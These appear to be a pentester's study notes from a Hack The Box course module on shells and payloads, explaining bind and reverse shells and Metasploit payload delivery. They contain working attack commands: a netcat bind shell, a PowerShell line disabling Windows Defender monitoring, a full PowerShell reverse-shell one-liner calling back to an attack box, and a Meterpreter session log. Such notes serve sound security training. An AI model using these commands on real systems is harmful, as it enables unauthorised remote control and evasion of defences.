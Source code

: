 ## [[generic-methodologies-and-resources/CPTS/6-Shells & Payloads/Introduction|Introduction]]
## Shell Basics
### Anatomy of a Shell
Every operating system has a shell, and to interact with it, we must use an application known as a `terminal emulator` ([Windows Terminal](https://github.com/microsoft/terminal),[cmder](https://cmder.app),[xterm](https://invisible-island.net/xterm/)..)
a **Command Language Interpreters**  is a program working to interpret the instructions provided by the user and issue the tasks to the operating system for processing, to view what shell language is in use `env | grep $SHELL` (SHELL=/usr/bin/zsh)
### Bind Shells
With a bind shell, the `target` system has a listener started and awaits a connection from a pentester's system (attack box).
![bind shell](https://academy.hackthebox.com/storage/modules/115/bindshell.png)

- Admins typically configure strict incoming firewall rules and NAT (with PAT implementation) on the edge of the network (public-facing), so we would need to be on the internal network already.
- Operating system firewalls (on Windows & Linux) will likely block most incoming connections that aren't associated with trusted network-based applications.

**Hands-on With A Simple BInd Shell in Linux:**
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f  # Server - Binding a Bash shell to the TCP session

nc -nv 10.129.41.200 7777 # Client - Connecting to bind shell on target
```
### Reverse Shells
With a `reverse shell`, the attack box will have a listener running, and the target will need to initiate the connection.
![reverse_shell](https://academy.hackthebox.com/storage/modules/115/reverseshell.png)
**Hands-on With A Simple Reverse Shell in Windows:**
==first we need to disable the windows defender antivirus (AV)==
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true # run in administrative powersehll console
```

```powershell
#  Client (target)
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

#  Server (attack box)
sudo nc -lvnp 443
```
## Payloads
the payload is the command and/or code that exploits the vulnerability in an OS and/or application
### Automating Payloads & Delivery with Metasploit
```bash
```shell-session
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.222:4444 
[*] 10.129.180.71:445 - Connecting to the server...
[*] 10.129.180.71:445 - Authenticating to 10.129.180.71:445 as user 'htb-student'...
[*] 10.129.180.71:445 - Selecting PowerShell target
[*] 10.129.180.71:445 - Executing the payload...
[+] 10.129.180.71:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.180.71
[*] Meterpreter session 1 opened (10.10.14.222:4444 -> 10.129.180.71:49675) at 2021-09-13 17:43:41 +0000

meterpreter > 
```
> from the logged info we can see that **powershell** is the command language interpreter is used to establish a system shell session with the target
### Crafting Payloads with MSFvenom
=> check [[msfvenom|here]]
## Windows Shells
check =>  [[Windows Shells]] 
## Infiltrating Unix/Linux
When considering how we will establish a shell session on a Unix/Linux system, we will benefit from considering the following:
- What distribution of Linux is the system running?
- What shell & programming languages exist on the system?
- What function is the system serving for the network environment it is on?
- What application is the system hosting?
- Are there any known vulnerabilities?
check => [[linux| NIX Shells]]
